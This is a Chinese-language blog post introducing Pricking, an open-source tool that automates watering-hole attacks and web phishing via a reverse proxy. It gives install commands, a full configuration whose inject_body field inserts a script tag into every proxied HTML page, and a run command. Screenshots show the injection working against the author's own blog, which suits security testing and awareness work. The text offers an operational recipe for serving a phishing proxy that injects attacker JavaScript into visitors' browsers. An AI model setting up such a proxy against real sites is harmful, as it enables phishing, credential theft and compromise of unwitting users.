 ```yaml
---
date: "2021-12-24T00:37:56+08:00"
description: Pricking 是一个基于反向代理技术进行水坑攻击的项目，本文介绍Pricking项目的安装与使用。
title: 基于反向代理技术进行水坑攻击- Pricking项目使用介绍
url: /archivers/2021-02-18/1
---
```



## 0x00 安装项目

[Pricking](https://github.com/Rvn0xsy/Pricking) 是一个自动化部署水坑和网页钓鱼的开源项目，本文介绍[Pricking](https://github.com/Rvn0xsy/Pricking) 项目的安装与使用。

```
$ git clone https://github.com/Rvn0xsy/Pricking
$ cd Pricking
$ make
```

## 0x01 例子演示

环境：

- 反向代理服务器：MacOS 64Bit 192.168.117.1
- 目标域名：https://payloads.online

配置文件：

```yaml
filter_type:
  - "text/html" # 仅针对网页内容进行注入
exclude_file:   # 静态文件的数据包不进行注入
  - ".jpg"
  - ".css"
  - ".png"
  - ".js"
  - ".ico"
  - ".svg"
  - ".gif"
  - ".jpeg"
  - ".woff"
  - ".tff"
static_dir: "./static" # Pricking Suite 目录
pricking_prefix_url: "/pricking_static_files" # 静态目录名，不能与目标网站冲突
listen_address: "192.168.117.1:9999" # 监听地址:端口
inject_body: "<script src='/pricking_static_files/static.js' type='module'></script>" # 注入代码
```
Pricking是支持HTTPS反向代理的，我的博客刚好是HTTPS加密的，所以能把HTTPS转换为HTTP。

![](../../../static/images/2021-12-24-14-00-37.png)

启动Pricking，**确保配置文件、Static在当前目录**：

```bash
$ ./pricking -url https://payloads.online
2021/12/24 14:03:33 Loading config  ./config.yaml
```

![](../../../static/images/2021-12-24-14-10-18.png)

代理效果：

![](../../../static/images/2021-12-24-14-05-09.png)

查看页面底部：

![](../../../static/images/2021-12-24-14-06-25.png)

代码已经成功注入，[static.js](https://github.com/Rvn0xsy/Pricking/tree/main/static)中的代码就是用于引用[Pricking Js Suite](https://github.com/Rvn0xsy/Pricking/tree/main/static)的内容进行加载执行。

![](../../../static/images/2021-12-24-14-14-00.png)